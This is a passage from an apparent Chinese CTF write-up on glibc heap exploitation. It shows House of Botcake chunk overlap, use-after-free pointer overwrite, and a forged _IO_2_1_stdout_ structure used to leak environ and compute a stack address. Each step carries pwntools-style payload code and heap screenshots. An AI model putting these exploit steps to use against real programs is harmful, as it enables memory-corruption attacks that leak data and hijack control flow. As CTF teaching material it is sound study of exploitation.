 合并一下 chunk  
合并前：  
[![](assets/1701612363-c80f6778b19ab228b0bde7d04f23428c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230703213029-c6db6ef4-19a5-1.png)  
合并后：  
[![](assets/1701612363-4126b48ab0ce161d67329a58727ab715.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230703213039-ccc26796-19a5-1.png)

```bash
add(0x80,'aaaa') #0
```

然后留出一个空位打 House of Botcake

[![](assets/1701612363-c42b8920fd7446ca07e32eae28cc148a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230703213054-d60ccf8a-19a5-1.png)

```bash
delete(8)
```

这时候两个堆块已经重叠了

[![](assets/1701612363-6ef3121d6a00835b1b41ea957dab6b31.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230703213108-de764c00-19a5-1.png)

```bash
add(0x70,'aaaa') #1
add(0x90,p64(0)+p64(0x91)+p64(stdout)) #2
```

然后修改 UAF 留下的指针

[![](assets/1701612363-ce0b576637f40fef0d986a11857c8e55.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230703213121-e6096b78-19a5-1.png)

```bash
add(0x80,'aaaa') #3
add(0x80,p64(0xfbad1887)+p64(0)*3+p64(environ)+p64(environ+8)) #4
stack_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8, b'\x00'))-0x128
leak('stack_addr ',stack_addr)
```

申请一次，后再申请一次来修改 \_IO\_2\_1_stdout_ 的结构体，这里是伪造了一下 \_flags，并且覆盖\_IO\_read\_ptr、\_IO\_read\_end、\_IO\_read\_base 这三个指针为 0，覆盖\_IO\_write\_base 指针为 environ，覆盖 \_IO\_write\_ptr 指针为 比 environ 大的数 (environ+8)，这时候就会泄露出 \_IO\_write\_base 指针与\_IO\_write\_ptr 指针之间的所有数据 (也就是 environ 的地址)\[这里的知识点，我在 Io leak 那篇文章中详细展开过\]，这里 -0x128 计算的是程序返回地址 -0x8，-0x8 是为了写 './flag\\x00\\x00'

```bash
delete(3)
delete(2)
```

然后把重叠的堆块再释放 (本来是 chunk1、2 重叠，这个是伪造的 2、3 重叠)

[![](assets/1701612363-10ab7370198d34cdbd7109377c99ae56.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230703213142-f295451a-19a5-1.png)

```bash
add(0x90,p64(0)+p64(0x91)+p64(stack_addr))
```
